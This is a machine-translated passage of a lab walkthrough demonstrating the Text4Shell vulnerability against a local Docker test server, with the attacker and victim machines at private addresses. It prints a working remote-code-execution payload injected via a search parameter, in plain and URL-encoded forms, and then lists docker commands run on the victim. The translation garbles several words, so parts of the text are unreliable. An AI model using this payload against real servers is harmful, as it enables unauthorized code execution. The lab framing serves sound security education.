 10.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

现在通过传递字符串“${prefix:name}”攻击远程 web 服务器。

[http://192 . 168 . 62 . 174/text 4 shell/attack？search = $ { script:JavaScript:Java . lang . runtime . get runtime()。exec'touch](http://192.168.62.174/text4shell/attack?search=${script:javascript:java.lang.Runtime.getRuntime().exec'touch) /tmp/foo')}

重要提示:上面的字符串包含:“exec。摸摸”。这是不正确的，一定是”。高管**(**‘摸’。由于 Medium.com 输入验证，不可能使用“.exec '(触摸)。手动添加缺少的“(”。

Url 对上面的字符串进行编码([https://www.urlencoder.org/](https://www.urlencoder.org/))。

```
[http://192.168.62.174/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.**exec%27**touch%20%2Ftmp%2Ffoo%27%29%7D](http://192.168.62.174/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%27%27touch%20%2Ftmp%2Ffoo%27%29%7D)
```

重要:上面的字符串包含:"。执行%27”。这是不正确的，一定是”。exec% **28** %27”。由于 Medium.com 输入验证，不可能使用“.exec% **28** %27”。手动添加缺少的“%28”..

![](img/5aa6170bb109f41d0fe8d7bb776f8e01.png)

这是正确的输出。

![](img/894cd3727291985e57cd1170d3ebd400.png)

11.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

获取码头集装箱 id

```
docker container ls
```

![](img/c36ec1809acc7c9949af3d1870760dfc.png)

集装箱编号:4bc32732e273

12.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

在 docker 容器中启动一个 bash shell。使用 docker exec -it <container_id>bash</container_id>
